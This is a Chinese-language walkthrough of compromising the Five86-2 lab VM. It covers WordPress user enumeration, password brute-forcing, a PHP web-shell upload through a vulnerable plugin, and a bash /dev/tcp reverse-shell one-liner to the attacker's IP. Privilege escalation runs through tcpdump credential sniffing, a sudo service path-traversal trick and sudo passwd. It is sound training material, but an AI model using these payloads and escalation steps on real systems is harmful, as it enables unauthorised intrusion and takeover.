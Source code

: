 
**环境配置**
ova导入 启动后改NAT

靶机ip: 192.168.136.163

nmap扫:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2024-05-05 17:40 CST
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 17:40 (0:00:06 remaining)
Nmap scan report for 192.168.136.163
Host is up (0.00041s latency).
Not shown: 997 filtered ports
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      ProFTPD 1.3.5e
80/tcp open   http     Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.1.4
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Five86-2 &#8211; Just another WordPress site
MAC Address: 00:0C:29:0D:2B:25 (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.72 seconds

```

这次没有ssh了
取而代之的是ftp
而且web是WordPress的
手动配置一下DNS解析HOST
`192.168.136.163 five86-2`

whatweb收集信息:
```
http://192.168.136.163 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.136.163], JQuery[1.12.4], MetaGenerator[WordPress 5.1.4], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[Five86-2 &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[5.1.4]
```

wpscan 扫扫
`wpscan --url=http://192.168.136.163 --enumerate u`

扫出来几个用户:
```
[i] User(s) Identified:

[+] peter
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] barney
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] gillian
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] stephen
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

尝试一波cewl后wpscan爆密码没出
好吧 用rockyou 硬爆吧
跑出来:
```
barney   spooky1
stephen  apollo1
```

以barney登陆进去发现plugins中的 `Insert or Embed articulate content` 存在已知漏洞
注意 zip里面要放一个html后再放php 不然传不了
![img](Five86-2/images/image.png)

![img](Five86-2/images/image-1.png)

连接 /shell/shell.php
![img](Five86-2/images/image-2.png)

然后反弹shell到kali
但貌似弹不了?

可以把shell.php直接写成一个反弹shell 也可以就在蚁剑操作
这里还是选择反弹shell
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.136.146/9999 0>&1'");?>
```

![img](Five86-2/images/image-3.png)

我们可以利用前面爆出来的两个密码来su

su stephen后python3起一个交互shell `python3 -c 'import pty;pty.spawn("/bin/bash")'`

然后又是一个新姿势 `getcap -r / 2>/dev/null`
在整个文件系统递归获取所有文件

```
stephen@five86-2:/$ getcap -r / 2>/dev/null       
getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+eip

```

![img](Five86-2/images/image-4.png)

所以用tcpdump -D 来看看

```
stephen@five86-2:/$ tcpdump -D
tcpdump -D
1.br-eca3858d86bf [Up, Running]
2.eth0 [Up, Running]
3.veth30da35d [Up, Running]
4.lo [Up, Running, Loopback]
5.any (Pseudo-device that captures on all interfaces) [Up, Running]
6.docker0 [Up]
7.nflog (Linux netfilter log (NFLOG) interface) [none]
8.nfqueue (Linux netfilter queue (NFQUEUE) interface) [none]
```

重点关注 `veth30da35d`  
我们在/tmp目录下执行
`timeout 150 tcpdump -w cap.pcap -i veth30da35d`

```
stephen@five86-2:/tmp$ pwd
pwd
/tmp
stephen@five86-2:/tmp$ timeout 150 tcpdump -w cap.pcap -i veth30da35d
timeout 150 tcpdump -w cap.pcap -i veth30da35d
tcpdump: listening on veth30da35d, link-type EN10MB (Ethernet), capture size 262144 bytes


84 packets captured
84 packets received by filter
0 packets dropped by kernel
stephen@five86-2:/tmp$ 

```

然后可以 `tcpdump -r` 分析

![img](Five86-2/images/image-5.png)

得到 paul的密码: `esomepasswford`

可以su paul了
sudo -l
```
paul@five86-2:/tmp$ sudo -l
sudo -l
Matching Defaults entries for paul on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User paul may run the following commands on five86-2:
    (peter) NOPASSWD: /usr/sbin/service

```

paul 的`/usr/sbin/service`可以执行peter的权限

md 查了一圈 可以这样:
`sudo -u peter /usr/sbin/service ../../../../bin/sh`
就可以直接获得peter的shell
继续sudo -l
```
$ id
id
uid=1003(peter) gid=1003(peter) groups=1003(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lxd),1010(ncgroup)
$ sudo -l
sudo -l
Matching Defaults entries for peter on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User peter may run the following commands on five86-2:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/passwd
```

`/usr/bin/passwd`提权
直接改root密码即可
```
$ sudo /usr/bin/passwd
sudo /usr/bin/passwd
New password: 123456

Retype new password: 123456

passwd: password updated successfully
$ su
su
Password: 123456

root@five86-2:/# 

```

getroot
![img](Five86-2/images/image-6.png)

---
---

总结一下:
最开始的wp字典硬爆破有点离谱...
进去后找插件漏洞的思路很自然 然后就是要找对怎么利用... 
上传后反弹shell到kali
进一步提权时接触到了 tcpdump
我觉得作者的思路应该是: 前面nmap扫出了ftp端口 所以猜测有ftp相关的流量 所以tcpdump来捕获对应流量得到敏感数据

所以这个靶机主要学习的就是如何捕获/分析 ftp流量
